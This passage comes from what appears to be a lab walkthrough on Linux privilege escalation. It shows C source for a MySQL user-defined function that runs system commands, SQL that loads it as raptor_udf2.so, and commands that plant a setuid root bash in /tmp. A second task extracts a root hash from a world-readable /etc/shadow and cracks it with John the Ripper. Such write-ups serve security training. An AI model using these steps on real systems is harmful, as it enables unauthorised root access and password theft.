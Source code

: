 int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
    if (args->arg_count != 1)
        return(0);
    system(args->args[0]);
    return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
    return(0);
}{% endraw %}{% endcapture %} {% include code.html code=code %}

Connect to `mysql` with blank password, using `mysql -u root`, and execute the following commands to create a `User Defined Function (UDF)` named `do_system` using compiled exploit.
{% capture code %}{% raw %}use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';{% endraw %}{% endcapture %} {% include code.html code=code %}

Use the function to copy `/bin/bash` to `/tmp/rootbash` and set the `suid` permission.
{% capture code %}{% raw %}select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');{% endraw %}{% endcapture %} {% include code.html code=code %}

Exit out of `mysql` shell using `\q`.

Use the newly created `bash` binary to spawn `privileged shell`.
{% capture code %}{% raw %}/tmp/rootbash -p{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Weak File Permissions - Readable /etc/shadow

The file `/etc/shadow` is readable, and if any of the password is based on dictionary word, it can be cracked easily.
{% capture code %}{% raw %}-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow{% endraw %}{% endcapture %} {% include code.html code=code %}

The entry for `root` user in `/etc/shadow` can be extracted separately for `john the ripper` and attempted to be cracked.
{% capture code %}{% raw %}root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `john` to crack the password.
{% capture code %}{% raw %}john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<password>      (root)
1g 0:00:00:00 DONE (2021-04-25 04:50) 1.265g/s 1944p/s 1944c/s 1944C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.{% endraw %}{% endcapture %} {% include code.html code=code %}
